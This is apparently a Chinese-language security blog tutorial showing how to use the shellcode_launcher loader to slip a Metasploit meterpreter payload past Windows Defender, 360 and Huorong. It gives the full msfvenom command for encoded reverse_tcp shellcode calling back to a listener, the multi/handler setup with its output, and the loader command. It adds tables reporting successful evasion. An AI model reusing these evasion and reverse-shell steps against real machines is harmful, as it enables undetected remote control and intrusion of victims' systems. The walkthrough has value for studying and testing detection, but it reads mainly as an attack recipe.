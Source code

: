 # 老树开新花之shellcode_launcher免杀Windows Defender


# 1. 说明
本文的所有技术文章仅供参考，此文所提供的信息只为网络安全人员对自己所负责的网站、服务器等（包括但不限于）进行检测或维护参考，未经授权请勿利用文章中的技术资料对任何计算机系统进行入侵操作。利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责。本文所提供的工具仅用于学习，禁止用于其他，请在24小时内删除工具文件！！！
​

工具估计已经失效！！！仅供参考！

# 2. 免杀效果

2.1 **静态免杀**

| 杀软\免杀效果 | 虚拟机环境：Windows 10 | 虚拟机环境：Windows 7 | 虚拟机环境：Windows server 2019 | 最新测试时间 |
| --- | --- | --- | --- | --- |
| 联网Windows Defender最新版
（关闭自动发送可疑样本） | ✅ | 未测 | ✅ | 2022.01.16 |
| 联网360最新版 | ✅ | ✅ | 未测 | 2022.01.16 |
| 联网火绒最新版 | 未测 | ✅ | ✅ | 2022.01.16 |



2.2 **动态免杀效果（指的是可执行命令）**



| 杀软\免杀效果 | 虚拟机环境：Windows 10 | 虚拟机环境：Windows 7 | 虚拟机环境：Windows server 2019 | 最新测试时间 |
| --- | --- | --- | --- | --- |
| 联网Windows Defender最新版
（关闭自动发送可疑样本） | ✅ | 未测 | ✅ | 2022.01.16 |
| 联网360最新版 | ✅ | ✅ | 未测 | 2022.01.16 |
| 联网火绒最新版 | 未测 | ✅ | ✅ | 2022.01.16 |



# 3. 使用方法

## 3.1 生成shellcode


首先用`Msfvenom`生成`raw`格式的`shellcode`，当前使用了`shikata_ga_na`编码模块：
生成的监听机器为`mac`，ip为`10.211.55.2`，端口：`1234`
```python
msfvenom -p  windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 6 -b '\x00' lhost=10.211.55.2 lport=1234  -f raw -o shellcode.raw
```


![image.png](https://cdn.nlark.com/yuque/0/2021/png/8378754/1624029949030-29b5ec73-29f9-4dd5-bbb5-9df94dfc7d5c.png)


![image.png](https://cdn.nlark.com/yuque/0/2022/png/8378754/1642254398164-01112f0c-11e8-4120-b0ec-a2688a793f5f.png)



`攻击机`上开启`msf`进行监听：


![image.png](https://cdn.nlark.com/yuque/0/2022/png/8378754/1642254739820-a3e5c5f4-96fb-4a1e-bf05-ca5490f232f1.png)


```
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.211.55.2
LHOST => 10.211.55.2
msf6 exploit(multi/handler) > set LPORT 1234
LPORT => 1234
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.211.55.2:1234
```


然后执行`shellcode_launcher`加载器：
​

`shellcode_launcher.exe -i shellcode.raw`




![image.png](https://cdn.nlark.com/yuque/0/2022/png/8378754/1642254817035-52bf769c-f47c-4e17-aa8c-f2a3d5522c2b.png)


此时`mac`收到会话，并且可以正常执行命令：


![image.png](https://cdn.nlark.com/yuque/0/2022/png/8378754/1642254854246-23fcff1e-1e3f-479e-9ffe-6c336e9ec58c.png)




## 3.2 **Bypass 火绒**
![image.png](https://cdn.nlark.com/yuque/0/2022/png/8378754/1642267625868-5d78bf6e-2fc1-4b85-a3e5-608d53f34975.png)


## 3.4 Bypass Win Defender & 360


![image.png](https://cdn.nlark.com/yuque/0/2022/png/8378754/1642267849841-c2806bda-7b40-4cef-8e0a-dc3bee308355.png)




# 4. 总结
## 4.1 免杀情况

直接整理为图片吧：
![image.png](https://cdn.nlark.com/yuque/0/2022/png/8378754/1642276998283-fefa0675-7c6c-4d40-9002-0a55f09f6d29.png)






## 4.2 缺点


在本文中，基本没有对作者的源代码进行分析，这里主要是因为篇幅太长，不适合进一步分析，其实可以在作者的基础上延伸一些更加好的方法，本文免杀中存在待优化的问题：

1. 使用`msfvenom`生成的`shellcode`会被一部分杀软标记，这些东西其实深入探究源码之后，去除特征并不算难解决。
1. 在这里看到静态免杀还是比较容易的，但是如果是执行命令等动态操作，基本上都会被优秀的杀软识别，所以在免杀上过动态检测才是研究免杀的关键。



本文在写文章的时候，可能还存在一定的问题，希望各位师傅能够批评指正，不胜感激！
​



